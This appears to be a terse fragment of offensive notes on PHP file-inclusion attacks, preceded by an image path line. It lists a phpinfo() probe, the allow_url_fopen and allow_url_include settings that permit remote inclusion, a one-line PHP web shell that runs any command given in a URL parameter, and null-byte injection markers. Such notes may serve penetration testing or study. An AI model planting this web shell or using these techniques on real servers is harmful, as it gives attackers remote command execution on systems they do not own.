 
```
<?php

phpinfo();

?>
```

**allow_url fopen**

**allow_url include**

```
<?php
	system($_GET['c']);
?>
```

Null Byte in PHP - %00 and \x00


